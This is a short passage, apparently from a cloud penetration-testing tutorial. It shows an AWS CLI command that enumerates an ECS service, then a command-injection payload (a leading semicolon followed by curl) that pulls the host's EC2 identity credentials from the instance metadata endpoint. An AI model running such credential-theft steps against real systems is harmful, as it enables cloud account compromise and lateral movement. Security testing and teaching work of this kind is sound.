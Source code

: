 ```bash
aws --profile <container_credentials> ecs describe-services --cluster <your_cluster_name> --services <target_service>
```

<p align="center">
  <img src="/images/cloud/replica.png">
</p>

**Note:** Task is scheduled as a **replica**, ecs will attempt to **rechedule** it on an available ecs instance if it's current host instance goes down for some reason. 

* Leak the AWS metadata of the **host** machine using the following credentials.

```bash
; curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

<p align="center">
  <img src="/images/cloud/curl_aws.png">
</p>
